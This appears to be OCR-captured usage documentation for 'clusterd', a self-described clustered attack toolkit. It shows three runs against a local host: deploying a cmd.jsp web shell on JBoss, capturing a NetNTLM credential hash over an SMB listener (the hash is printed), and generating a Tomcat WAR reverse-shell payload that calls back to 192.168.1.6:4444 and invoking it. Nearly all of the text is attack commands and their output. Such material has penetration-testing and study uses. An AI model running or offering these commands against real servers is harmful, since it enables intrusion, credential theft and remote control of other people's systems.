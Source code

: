 ```
 [2014-05-25 11:00PM]   JBoss Status Page (version Any)
 [2014-05-25 11:00PM] Fingerprinting completed.
 [2014-05-25 11:00PM] This deployer requires a JSP, default to cmd.jsp? [Y/n] > 
 [2014-05-25 11:00PM] Preparing to deploy cmd...
 [2014-05-25 11:00PM] Successfully deployed '/cmd/cmd.jsp'
 [2014-05-25 11:00PM] Finished at 2014-05-25 11:00PM
```

jboss UNC hash retrieval
```
$ sudo ./clusterd.py -i 192.168.1.105 -a jboss -v4.2 --random-agent --jb-smb

        clusterd/0.3 - clustered attack toolkit
            [Supporting 6 platforms]

 [2014-05-25 11:01PM] Started at 2014-05-25 11:01PM
 [2014-05-25 11:01PM] Servers' OS hinted at windows
 [2014-05-25 11:01PM] Fingerprinting host '192.168.1.105'
 [2014-05-25 11:01PM] Server hinted at 'jboss'
 [2014-05-25 11:01PM] Checking jboss version 4.2 JBoss JMX Console...
 [2014-05-25 11:01PM] Checking jboss version 4.2 JBoss Web Console...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss EJB Invoker Servlet...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss HTTP Headers (Unreliable)...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss JMX Invoker Servlet...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss RMI Interface...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss Status Page...
 [2014-05-25 11:01PM] Matched 7 fingerprints for service jboss
 [2014-05-25 11:01PM]   JBoss JMX Console (version 4.2)
 [2014-05-25 11:01PM]   JBoss Web Console (version 4.2)
 [2014-05-25 11:01PM]   JBoss EJB Invoker Servlet (version Any)
 [2014-05-25 11:01PM]   JBoss HTTP Headers (Unreliable) (version 4.2)
 [2014-05-25 11:01PM]   JBoss JMX Invoker Servlet (version Any)
 [2014-05-25 11:01PM]   JBoss RMI Interface (version Any)
 [2014-05-25 11:01PM]   JBoss Status Page (version Any)
 [2014-05-25 11:01PM] Fingerprinting completed.
 [2014-05-25 11:01PM] Setting up SMB listener..
 [2014-05-25 11:01PM] Invoking UNC loader...
 [2014-05-25 11:01PM] bryan::bryan-PC:1122334455667788:34826253d353ebca4811bd08be0db067:01010000000000003dac35999f78cf019df7c49c7268a5f600000000020000000000000000000000
 [2014-05-25 11:01PM] Finished at 2014-05-25 11:01PM
```

tomcat deployment and reverse shell invocation
```
$ ./clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows

        clusterd/0.3 - clustered attack toolkit
            [Supporting 6 platforms]

 [2014-05-25 10:53PM] Started at 2014-05-25 10:53PM
 [2014-05-25 10:53PM] Generating payload....
 [2014-05-25 10:53PM] Payload generated (shell.war).  Payload: java/jsp_shell_reverse_tcp
 [2014-05-25 10:53PM] Servers' OS hinted at windows
 [2014-05-25 10:53PM] Fingerprinting host '192.168.1.105'
 [2014-05-25 10:53PM] Server hinted at 'tomcat'
 [2014-05-25 10:53PM] Checking tomcat version 5.5 Tomcat...
 [2014-05-25 10:53PM] Checking tomcat version 5.5 Tomcat Manager...
 [2014-05-25 10:53PM] Matched 2 fingerprints for service tomcat
 [2014-05-25 10:53PM]   Tomcat (version 5.5)
 [2014-05-25 10:53PM]   Tomcat Manager (version 5.5)
 [2014-05-25 10:53PM] Fingerprinting completed.
 [2014-05-25 10:53PM] Preparing to deploy /tmp/.clusterd/z1dgi.war...
 [2014-05-25 10:53PM] Deployed /tmp/.clusterd/z1dgi.war to /z1dgi
```
